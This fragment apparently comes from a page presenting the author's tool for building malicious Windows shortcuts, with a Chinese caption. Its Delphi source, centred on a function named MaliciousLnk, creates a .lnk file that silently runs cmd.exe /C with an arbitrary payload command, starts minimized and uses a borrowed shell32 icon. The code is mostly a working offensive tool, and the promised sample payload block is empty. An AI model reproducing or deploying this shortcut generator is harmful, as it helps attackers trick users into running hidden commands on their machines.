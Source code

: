 ```
  try
    cObject := CreateComObject(CLSID_ShellLink);
    shellLink := cObject as IShellLink;
    PFile := cObject as IPersistFile;
    cmd := '/C "' + cmd + '"';
    shellLink.SetDescription('@DarkCoderSc');
    shellLink.SetPath('cmd.exe');
    shellLink.SetArguments(PWideChar(cmd));
    shellLink.SetShowCmd(SW_SHOWMINNOACTIVE);
    shellLink.SetWorkingDirectory('%windir%system32');
    shellLink.SetIconLocation('shell32.dll', 1);
    result := PFile.Save(PWideChar(destPath), false) = S_OK;
  finally
    CoUninitialize();
  end;
end;
var Arg1, Arg2 : String;
    strList    : TStringList;
begin
  try
    if ParamCount &lt;&gt; 2 then begin
      writeln('usage:');
      writeln('- Arg1 : Payload file, generated with the "gen_shortcut_code.py"');
      writeln('- Arg2 : Full path of destination shortcut');
      exit;
    end;
    Arg1 := ParamStr(1);
    Arg2 := ParamStr(2);
    if NOT FileExists(Arg1) then exit;
    // THIS IS JUST A LAZY WORKING EXAMPLE OF OPENNING TEXT FILES
    strList := TStringList.Create;
    strList.LoadFromFile(Arg1);
    MaliciousLnk(strList.Text, Arg2);
    strList.Free;
  finally
    writeln(#13#10 + 'Press enter to leave...');
    readln;
  end;
end.
```

生成的payload示例（利用x86汇编语言编写的Hello World示例） 

```
```